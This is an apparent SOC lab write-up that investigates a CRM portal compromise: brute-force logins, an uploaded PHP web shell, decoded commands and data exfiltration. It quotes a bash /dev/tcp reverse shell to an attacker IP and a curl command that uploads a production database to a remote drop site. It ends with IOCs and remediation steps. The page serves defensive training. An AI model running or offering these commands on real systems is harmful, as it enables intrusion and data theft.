---
hide:
  - toc
---

<div class="soc-hero">

# 🚨 Task 5: CRM Compromise

<div class="soc-pill-row" style="margin-bottom: 1.2rem;">
  <span class="soc-pill">Alert: Web Shell</span>
  <span class="soc-pill">Vector: Brute Force</span>
  <span class="soc-pill">Tactic: Exfiltration</span>
</div>

<span class="soc-muted">
Investigating a full compromise of the CRM portal. We tracked the attacker from the initial brute-force attempts to the web shell upload, payload decoding, and final data exfiltration.
</span>

</div>

!!! failure "🚨 EDR Alert: Suspicious File Write"
    **Trigger:** The EDR agent on `TPMHQ-CRM01` flagged a suspicious file creation event in the web directory.
    
    **File:** `/var/www/html/CRM/portal/uploads/invoice.php`
    **Process:** `php-fpm7.4` (Web Server)
    
    **Investigation Goal:** Trace the attack vector from the initial web logs to the final data exfiltration command.

---

## 🚪 Phase 1: Access Analysis (Logs)

We started by analyzing the Apache access logs to verify how the attacker bypassed authentication.

=== "1. Attacker IP"
    **Finding:** A single IP address, `34.67.91.83`, generated a high volume of traffic compared to other sources.
    
    

=== "2. Brute Force Counts"
    **Finding:** The attacker performed a brute-force attack.
    
    * **Failed Login Attempts (401):** 35
    * **Successful Logins (200):** 18
    
    

=== "3. Tool Switch"
    **Finding:** The attacker initially used `PF-Scanner/1.0` for reconnaissance, then switched to `python-requests/2.31.0` for the actual exploit.
    
    

---

## 🐚 Phase 2: Weaponization (Web Shell)

After gaining access, the attacker automated the upload of a malicious PHP file.

=== "Upload Log"
    **Finding:** The logs show a `POST` request to `/CRM/portal/upload.php`.
    
    * **File:** `invoice.php`
    * **Time:** `14:27:34`
    * **Tool:** `python-requests/2.31.0`
    
    

=== "EDR Alert: Summary"
    **EDR Detection:** "Suspicious File Write: Backdoor:PHP/Generic"
    
    The EDR flagged this because the file was written by the `www-data` user, indicating the web server itself created the file (a classic web shell indicator).
    
    

=== "EDR Alert: Details"
    **IOC Details:**
    
    * **File Path:** `/var/www/html/CRM/portal/uploads/invoice.php`
    * **Process Image:** `/usr/sbin/php-fpm7.4`
    
    

---

## ⚡ Phase 3: Execution & Payloads

The attacker executed commands by passing Base64 encoded strings to the `invoice.php` web shell. We decoded these to understand their intent.

=== "Command 1: Recon"
    **Encoded Payload:** `ZDJodllXMXA`
    
    **Decoded:** `whoami`
    
    The attacker verified they had code execution on the server.
    
    

=== "Command 2: Reverse Shell"
    **Encoded Payload:** `Ww1GemFDQXRh...`
    
    **Decoded:**
    ```bash
    bash -i >& /dev/tcp/115.58.148.86/8080 0>&1
    ```
    
    This command opened a reverse shell connection back to the attacker's listener on port 8080.
    
    

=== "MITRE T1505.003"
    **Technique Alignment:** Server Software Component: Web Shell.
    
    Adversaries use web shells to establish persistent access to web servers.
    
    

---

## 📤 Phase 4: Discovery & Exfiltration

With a stable shell, the attacker moved to their final objective: stealing data. The EDR process tree captured the exact commands.

=== "1. Config Theft"
    **Process Chain:** `bash` -> `cat`
    
    **Command:** `cat /etc/trycrm/config.json`
    
    The attacker read the CRM configuration file, likely to find database credentials.
    
    

=== "2. Database Exfiltration"
    **Process Chain:** `bash` -> `curl`
    
    **Command:**
    ```bash
    curl -sS -T /var/lib/trycrm/prod.db [https://portaldrop2025.xyz/x7Ja0mlqP](https://portaldrop2025.xyz/x7Ja0mlqP)
    ```
    
    **Action:** The attacker exfiltrated the production database (`prod.db`) to a remote drop site.
    
    

---

## 🛡️ Case Verdict

<div class="soc-grid">
  <div class="soc-card soc-case soc-accent-red">
    <div class="soc-card-body">
      <div class="soc-card-title">Critical Compromise</div>
      <ul>
        <li><strong>Attacker IP:</strong> 34.67.91.83</li>
        <li><strong>C2 IP:</strong> 115.58.148.86</li>
        <li><strong>Data Lost:</strong> CRM Database & Configs</li>
      </ul>
    </div>
  </div>

  <div class="soc-card soc-case soc-accent-green">
    <div class="soc-card-body">
      <div class="soc-card-title">Remediation Steps</div>
      <ul>
        <li>Isolate <code>TPMHQ-CRM01</code> immediately.</li>
        <li>Revoke all database secrets found in <code>config.json</code>.</li>
        <li>Block <code>portaldrop2025.xyz</code> at the firewall.</li>
      </ul>
    </div>
  </div>
</div>

<br>
<center>
  <a href="../task-4-phishing-books/" class="soc-btn">← Previous: Task 4</a>
  <a href="../../" class="soc-btn soc-btn-secondary">Return to Dashboard</a>
</center>